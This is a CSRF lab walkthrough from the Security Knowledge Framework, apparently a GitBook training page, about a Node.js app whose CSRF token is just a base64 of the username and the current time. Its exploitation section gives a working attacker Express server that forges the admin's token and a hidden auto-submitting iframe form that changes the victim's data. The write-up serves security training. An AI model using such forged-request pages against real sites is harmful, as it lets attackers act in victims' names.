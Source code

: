 # KBID 5 - CSRF - Weak

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](../../.gitbook/assets/nodejs/CSRF-weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](../../.gitbook/assets/nodejs/CSRF-weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](../../.gitbook/assets/nodejs/CSRF-weak/3.png)

Also we can see that the application is using a csrf_token

```html
    <form method="post" action="/update">
        <input type="hidden" class="form-control" name="csrf_token" value="<%=csrf_token %>">
        <input type="text" class="form-control" name="color" placeholder="favorite color"/><br/>
        <button class="btn btn-primary" type="submit">Submit Button</button></div>
    </form>
```

Looks like it's Base64 encoded, try decode it.

![](../../.gitbook/assets/nodejs/CSRF-weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```javascript
  const username = req.body.username;
  const password = req.body.password;
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  db.get(sql, [username, password], (err, row) => {
    if (row) {
      const date = new Date();
      const time = date.getHours() + ":" + date.getMinutes();
      let csrf_token = username + time;
      session = req.session;
      session.userId = row.UserId;
      session.loggedIn = true;
      session.csrf_token = Buffer.from(csrf_token).toString("base64");
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  const date = new Date();
  const time = date.getHours() + ":" + date.getMinutes();
  const csrf_token = "admin" + time;
  const encoded_csrf_token = Buffer.from(csrf_token).toString("base64");
  res.render("evil.ejs", { csrf_token: encoded_csrf_token });
});

app.use(function (req, res) {
  res.status(404).render("404.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="csrf_token" value="<%= csrf_token %>" />
  <input type="hidden" name="color" value="Hackzord!" />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; views/evil.ejs and run the command below to start our evil application.

```text
$ node evil_server.js
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](../../.gitbook/assets/nodejs/CSRF-weak/5.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](../../.gitbook/assets/nodejs/CSRF-weak/6.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}
